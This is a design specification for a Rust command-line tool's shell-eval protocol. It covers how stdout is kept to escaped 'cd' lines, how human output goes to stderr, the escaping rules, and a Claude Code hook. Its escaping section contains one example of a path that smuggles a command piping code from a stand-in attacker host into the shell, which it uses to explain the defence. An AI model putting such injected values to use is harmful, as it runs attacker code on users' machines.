

> 🇯🇵 [日本語版](./eval-contract.ja.md)

# The stdout Eval Contract

> **Status: Normative.** Unlike the historical specifications in this directory, this document describes the CURRENT Rust implementation and is the single source of truth for the shell-eval protocol. Code and spec must change together.

The key words **MUST** and **MUST NOT** are used in the RFC 2119 sense: they mark invariants that the implementation and any future change are required to preserve.

## 1. Overview

A child process cannot change its parent shell's current working directory. `vibe start` runs as a child of the user's shell, so it cannot `cd` on the shell's behalf. Instead, the shell wrapper function evaluates the binary's stdout in the parent shell's context.

This makes **stdout executable shell code** — the *eval channel*. Everything a human is meant to read goes to stderr — the *human channel*.

Consequence: any stray byte on stdout is executed by the user's shell. The contract below exists to make that impossible by construction.

## 2. Terminology

| Term             | Meaning                                                                                          |
| ---------------- | ------------------------------------------------------------------------------------------------ |
| **eval channel** | stdout. Consumed verbatim by the wrapper and executed as shell code.                              |
| **human channel**| stderr. Progress, logs, warnings, errors, `--help`, `--version`. Never evaluated.                 |
| **wrapper**      | The shell function installed by `vibe shell-setup` that runs the binary and evals its stdout.      |
| **child binary** | The real `vibe` executable, invoked as `command vibe` / `^vibe` / `vibe.exe` to bypass the wrapper. |
| **`Outcome`**    | The value a command handler returns (`rust/crates/vibe-core/src/commands/mod.rs`); describes what — if anything — the binary should write to stdout. |

## 3. Wrapper functions per shell

Emitted by `rust/crates/vibe-core/src/commands/shell_setup.rs` (`shell_function`), one per line, each followed by a single `\n`.

| Shell        | Wrapper text (byte-exact)                                                        |
| ------------ | -------------------------------------------------------------------------------- |
| bash, zsh    | `vibe() { eval "$(command vibe "$@")"; }`                                         |
| fish         | `function vibe; eval (command vibe $argv); end`                                   |
| nushell      | `def --env vibe [...args] { ^vibe ...$args \| lines \| each { \|line\| nu -c $line } }` |
| powershell   | `function vibe { Invoke-Expression (& vibe.exe $args) }`                          |

- Wrapper text and completion output **MUST** stay byte-identical across releases. Wrappers already sourced in users' rc files are not regenerated on upgrade; they depend on the exact bytes.
- `--with-completion` appends a completion script (fish and zsh only) plus a trailing `\n`. Any other shell is a `VibeError::Configuration` (exit 1).
- An unrecognised `--shell` / `$SHELL` value is also a `VibeError::Configuration` (exit 1), not an `Argument` error.

## 4. Normative rules: stdout

### 4.1 Single write point

- `rust/crates/vibe/src/eval_output.rs::write_outcome` is the **only** function in production code that writes to stdout.
- It is called **exactly once**, from `rust/crates/vibe/src/main.rs`, on the `Ok` branch of `dispatch`.
- Any other `println!`, `print!`, `std::io::stdout()`, or `dbg!` in production code is a defect. Command handlers in `vibe-core` **MUST NOT** print; they return an `Outcome` and let the binary decide.
- If `write_outcome` fails (see the newline guard), the error is reported to stderr and the process exits non-zero — nothing is written to stdout.

### 4.2 stdout grammar per `Outcome` variant

| Constructor                | Emitted stdout                                       | Used by                                            |
| -------------------------- | ---------------------------------------------------- | -------------------------------------------------- |
| `Outcome::none()`          | nothing (zero bytes)                                  | `config`, `verify`, `trust`, `untrust`, `upgrade`, dry runs, hook-mode `clean` |
| `Outcome::cd(path)`        | exactly one line: `cd '<escaped>'` + `\n`             | `start`, `scratch`, `jump`, `rename`, `clean`, `home` |
| `Outcome::stdout(text)`    | `text` verbatim, may be multi-line, carries its own trailing newline(s) | `shell-setup` (wrapper + completion) |
| `Outcome::stdout_path(p)`  | the bare path `p`, **no** trailing newline            | `start --claude-code-worktree-hook`                 |

Additional rules:

- `cd_path` and `stdout` are **mutually exclusive by construction**; every constructor sets at most one. `write_outcome` carries a `debug_assert!` so a future constructor that sets both is caught rather than silently dropping `stdout`.
- `write_outcome` **MUST** reject a `cd_path` containing `\n` or `\r` and return an error instead of printing. A newline would terminate the single `cd` line and let an attacker-controlled path inject a second command into the eval.
- `Outcome::stdout_path` applies the same `\n`/`\r` guard **at construction time**, returning `Err` — a worktree path can be derived from a user `path_script`, so it is untrusted for this purpose.
- `Outcome::stdout` is for **trusted, hand-built payloads only** (the wrapper function and completion scripts), which legitimately contain newlines. Untrusted text **MUST NOT** be passed to it.

## 5. Normative rules: stderr

- All human-facing output **MUST** go to stderr: `log`/`verbose_log`/`success_log`/`warn_log`/`error_log` (`rust/crates/vibe-core/src/output.rs`), progress rendering (`ProgressDrawTarget::stderr()`), interactive prompts, clap `--help` and parse errors, and the custom `--version` block.
- clap errors are written to stderr explicitly in `main.rs` (clap would otherwise send `--help` to stdout, which the wrapper would execute).
- Lifecycle hook output (`rust/crates/vibe-core/src/hooks.rs`): with no progress tracker, a hook's **stdout is forwarded to stderr**; with a tracker it is suppressed to keep the display clean. A failed hook always shows its stderr. Hook output **MUST NOT** reach the process's stdout under any configuration.
- `vibe-core` **MUST NOT** write to stdout at all; it has no stdout seam.

## 6. Escaping

`rust/crates/vibe-core/src/shell.rs`:

- `shell_escape(value)` replaces each `'` with `'\''` (close quote, escaped literal quote, reopen quote). `$`, backticks and double quotes are inert inside single quotes and are left as-is.
- `escape_shell_path` is an alias for paths.
- `format_cd_command(path)` produces `cd '<escaped>'`.
- The output of these functions **MUST** stay byte-stable; the escaping is the mitigation for shell output injection, and installed wrappers rely on the exact grammar.

Example: `/tmp/x'; curl attacker.com/steal | sh; echo '` becomes `cd '/tmp/x'\''; curl attacker.com/steal | sh; echo '\'''` — a single, inert `cd` argument.

### 6.1 Known limitations

These are observed limitations of the current implementation. No fix is prescribed here.

- **nushell**: the wrapper splits stdout into lines and runs each through `nu -c`. The emitted `cd` line uses POSIX single-quote escaping, which is not nushell's string syntax. Paths containing a single quote are therefore not handled correctly under nushell.
- **powershell**: `Invoke-Expression` interprets the line with PowerShell quoting rules, which differ from POSIX in the same way. The same quoting-dialect caveat applies.
- Ordinary paths (no single quotes) work correctly on all five shells.

## 7. Adjacent protocol: Claude Code worktree hook (stdin JSON)

`start` and `clean` accept `--claude-code-worktree-hook`, an internal flag intended for Claude Code, not humans. It is excluded from the generated completions via `INTERNAL_FLAGS_NOT_EXPOSED` in `rust/crates/vibe/src/cli.rs`.

### 7.1 Request (stdin)

Read by `rust/crates/vibe-core/src/stdin.rs`, the untrusted-input boundary.

| Rule                                                                                             |
| ------------------------------------------------------------------------------------------------ |
| The payload **MUST** be a single JSON **object**; arrays, scalars and `null` are rejected.         |
| The payload **MUST** be ≤ 1 MB (`MAX_STDIN_SIZE`); reading stops at `max + 1` bytes, so an oversized payload is never fully buffered. |
| Empty / blank / unparsable input yields no value (the command then reports a usage error on stderr). |

Fields:

- `start`: `{"name": "<branch>"}` — **MUST** be a non-empty string, **MUST NOT** contain a NUL byte, and **MUST NOT** start with `-` (so `--force` / `-b` cannot be smuggled into a `git worktree add` flag slot). A branch given as a CLI argument takes precedence over stdin.
- `clean`: `{"worktree_path": "<abs path>"}` — **MUST** be a non-empty absolute path that passes `validate_path` (no NUL, no `\n`/`\r`, no `$(`, no backtick). `clean` additionally refuses a path that is not in the actual git worktree set.

### 7.2 Response (stdout)

| Command                          | stdout                                                               |
| -------------------------------- | --------------------------------------------------------------------- |
| `start --claude-code-worktree-hook` | the bare worktree path via `Outcome::stdout_path` — **no** trailing newline, and **not** a `cd` line |
| `clean --claude-code-worktree-hook` | nothing (`Outcome::none()`); Claude Code controls navigation          |
| both, dry run / refused path     | nothing                                                               |

Diagnostics for both are `[cc-worktree-hook]`-prefixed lines on stderr.

## 8. Testing responsibilities

| Tier                                                     | Proves                                                                                              |
| -------------------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| Unit tests (`#[cfg(test)]` in `vibe-core` / `vibe`)       | Handler logic and the `Outcome` a handler returns. They **cannot** prove the stream split — no process boundary exists. |
| `rust/crates/vibe/tests/eval_contract.rs`                 | Drives the **built** binary with stdout and stderr on **separate pipes** and asserts the exact bytes on each stream. The only tier that can prove the split. |
| PTY E2E (`packages/e2e`)                                  | Interactive behaviour (prompts, TTY detection). A PTY **merges** the two streams by design, so it cannot assert the split. |

Rule: any change affecting the stdout/stderr split **MUST** add a case to `rust/crates/vibe/tests/eval_contract.rs`.

## 9. Change control

The following are **breaking changes**, because already-installed shell wrappers and completion scripts depend on the exact bytes:

- any byte change to the wrapper text in `shell_setup.rs`;
- any byte change to the generated completion output;
- any change to `shell_escape` / `format_cd_command` output;
- any change to the `cd '<escaped>'` grammar (extra lines, dropped newline, different command).

Such a change **MUST** be treated as a breaking release and paired with an updated case in `eval_contract.rs`.

## 10. References

Implementation ground truth:

- `rust/crates/vibe/src/eval_output.rs` — the single stdout write point and the newline guard
- `rust/crates/vibe/src/main.rs` — the single call site; clap output routed to stderr
- `rust/crates/vibe-core/src/commands/mod.rs` — `Outcome` and its constructors
- `rust/crates/vibe-core/src/shell.rs` — `shell_escape`, `format_cd_command`
- `rust/crates/vibe-core/src/commands/shell_setup.rs` — wrapper text per shell
- `rust/crates/vibe-core/src/output.rs`, `rust/crates/vibe-core/src/hooks.rs` — the stderr side
- `rust/crates/vibe-core/src/stdin.rs`, `rust/crates/vibe/src/cli.rs` — the Claude Code hook protocol
- `rust/crates/vibe/tests/eval_contract.rs` — the executable form of this specification

Related documents:

- `docs/architecture.md`, "Shell Wrapper Architecture" — design history (describes the removed TypeScript implementation)
- `docs/SECURITY_CHECKLIST.md` §10 "Shell Output Injection" and §13 "eval / Dynamic Code Execution" — the threat-model view of this contract
